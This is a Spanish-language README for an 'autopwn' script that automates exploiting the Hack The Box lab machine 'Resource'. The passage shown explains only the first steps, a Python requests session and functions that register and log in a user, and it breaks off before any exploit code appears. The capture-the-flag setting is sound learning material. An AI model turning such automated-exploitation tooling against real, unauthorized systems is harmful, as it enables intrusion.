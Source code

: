 # Autopwn - Resource

En caso de no haber realizado la máquina Resource, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Resource) para comprender el autopwn.

<p align="center">
    <img src="Img/Autopwn-Resource.png"
        alt="autopwn"
    style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

Lo primero que se realiza es el registro y el login del usuario, utilizando **session** para poder tener una sesión persistente y utilizarlo mas adelante

```python3
s = requests.session()
```
```python3
def register():
	register = {
		'user': username,
		'pass': password,
		'pass2': password
	}

	r = requests.post(url_register, data=register)

def login(username, password):
	login = {
		'user': username,
```